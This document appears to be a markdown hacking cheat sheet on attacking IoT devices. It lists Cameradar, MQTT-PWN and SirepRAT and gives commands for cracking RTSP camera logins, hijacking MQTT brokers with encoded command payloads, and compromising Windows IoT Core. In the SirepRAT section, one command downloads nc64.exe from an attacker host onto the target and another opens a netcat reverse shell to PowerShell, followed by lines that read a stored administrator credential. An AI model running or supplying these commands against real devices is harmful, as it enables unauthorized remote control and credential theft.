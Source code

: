 # IoT

- [Resources](#resources)

## Table of Contents

- [Cameradar](#cameradar)
- [Mosquitto (MQTT)](#mosquitto-mqtt)
- [SirepRAT](#sireprat)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Cameradar | Cameradar hacks its way into RTSP videosurveillance cameras | https://github.com/Ullaakut/cameradar |
| MQTT-PWN | MQTT-PWN intends to be a one-stop-shop for IoT Broker penetration-testing and security assessment operations. | https://github.com/akamai-threat-research/mqtt-pwn |
| Python-based MQTT Client Shell | Python-based MQTT client command shell | https://github.com/bapowell/python-mqtt-client-shell |
| SirepRAT | Remote Command Execution as SYSTEM on Windows IoT Core (releases available for Python2.7 & Python3)  | https://github.com/SafeBreach-Labs/SirepRAT |

## Cameradar

> https://github.com/Ullaakut/cameradar

### Execution using a custom Wordlist

```console
$ sudo docker run -t -v /PATH/TO/WORDLIST:/FOLDER/ ullaakut/cameradar -c "/FOLDER/<WORDLIST>.json" -t <RHOST>
$ sudo docker run -t -v /PATH/TO/WORDLIST:/FOLDER/ ullaakut/cameradar -c "/FOLDER/<WORDLIST>.json" -t <RHOST> -p <RPORT>
```

### Vendor List

- Robert Bosch GmbH
- Panasonic Corporation
- Honeywell International Inc.
- Cisco Systems, Inc.
- Sony Group Corporation
- LG Electionics Inc.
- Hikvision
- Dahua Technology
- Axis Communications AB
- Teledyne Technologies Incorporated
- Hanwha Group
- Motorola Solutions (Avigilon)
- Uniview

## Mosquitto (MQTT)

### Client Tools

```console
$ sudo apt-get install mosquitto mosquitto-clients
```

```console
$ mosquitto_sub -h <RHOST> -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'hello'
```

### Sending Commands

```console
{ "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls" }
```

```console
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyAiaWQiOiAiY2RkMWIxYzAtMWM0MC00YjBmLThlMjItNjFiMzU3NTQ4YjdkIiwgImNtZCI6ICJDTUQiLCAiYXJnIjogImxzIiB9'
```

### Python-based MQTT Client Shell

> https://github.com/bapowell/python-mqtt-client-shell

```console
$ python mqtt_client_shell.py
> host=<RHOST>
> host <RHOST>
> connect
> subscribe
> subscribe topic 0, 1, 2, 3
> exit
```

## SirepRAT

> https://github.com/SafeBreach-Labs/SirepRAT

### Upload

```console
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://<LHOST>:80/nc64.exe" --v
```

### Command Execution

```console
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe <LHOST> <LPORT> -e powershell.exe" --v
```

```console
$ $env:UserName                                                        // get the current username
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt    // accessing a file
$ $credential.GetNetworkCredential().Password                          // show input
```
